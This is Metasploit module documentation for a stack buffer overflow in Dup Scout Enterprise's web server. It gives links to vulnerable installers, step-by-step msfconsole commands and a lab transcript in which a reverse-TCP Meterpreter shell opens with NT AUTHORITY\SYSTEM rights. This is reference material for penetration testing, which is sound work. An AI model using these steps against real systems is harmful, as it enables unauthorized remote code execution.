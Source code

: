 ## Vulnerable Application

This module exploits a stack-based buffer overflow vulnerability
in the web interface of [Dup Scout Enterprise](http://www.dupscout.com)]
versions <= 10.0.18, caused by improper bounds checking of the request
path in HTTP GET requests sent to the built-in web server which can be
leveraged to execute arbitrary code in the context of NT AUTHORITY\SYSTEM.

This module supports x86 versions of Dup Scout Enterprise and x86
Windows operating systems only and has been tested successfully on
Windows 7 SP1 (x86) and Windows XP SP0 (x86).

## Verification Steps

Download:

* https://www.exploit-db.com/apps/84dcc5fe242ca235b67ad22215fce6a8-dupscoutent_setup_v10.0.18.exe
* https://www.exploit-db.com/apps/d83948ebf4c325eb8d56db6d8649d490-dupscoutent_setup_v9.9.14.exe
* https://www.exploit-db.com/apps/4ead3eadc19bf3511e8dfd606624e310-dupscoutent_setup_v9.1.14.exe
* https://www.exploit-db.com/apps/3ca0c9aee534994bc6894bfb309e5a4f-dupscoutent_setup_v9.0.28.exe
* https://web.archive.org/web/20170302/http://www.dupscout.com/setups/dupscoutent_setup_v9.0.28.exe
* https://web.archive.org/web/20160408/http://www.dupscout.com/setups/dupscoutent_setup_v8.3.16.exe
* https://web.archive.org/web/20160826/http://www.dupscout.com/setups/dupscoutent_setup_v8.4.16.exe

Install the application from the link above and enable the web server by going to
Tools -> Advanced Options -> Server -> Enable Web Server on Port.

Metasploit:

1. Start msfconsole
1. Do: `use exploit/windows/http/dupscts_bof`
1. Do: `set rhosts <rhosts>`
1. Do: `run`
1. You should get a shell.

## Options

## Scenarios

### Dup Scout Enterprise v9.9.14 on Windows 7 SP1 (x86)

```
msf > use exploit/windows/http/dupscts_bof
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/http/dupscts_bof) > set rhosts 172.16.191.213
rhosts => 172.16.191.213
msf exploit(windows/http/dupscts_bof) > check
[*] 172.16.191.213:80 - The target appears to be vulnerable. Dup Scout Enterprise version 9.9.14.
msf exploit(windows/http/dupscts_bof) > set lhost 172.16.191.192 
lhost => 172.16.191.192
msf exploit(windows/http/dupscts_bof) > run

[*] Started reverse TCP handler on 172.16.191.192:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Dup Scout Enterprise version 9.9.14.
[*] Selecting a target...
[*] Using target: Dup Scout Enterprise v9.9.14 (x86)
[*] Sending payload (8577 bytes) ...
[*] Sending stage (175174 bytes) to 172.16.191.213
[*] Meterpreter session 1 opened (172.16.191.192:4444 -> 172.16.191.213:49380) at 2021-02-25 11:29:52 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-7-ULTIMATE-
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```

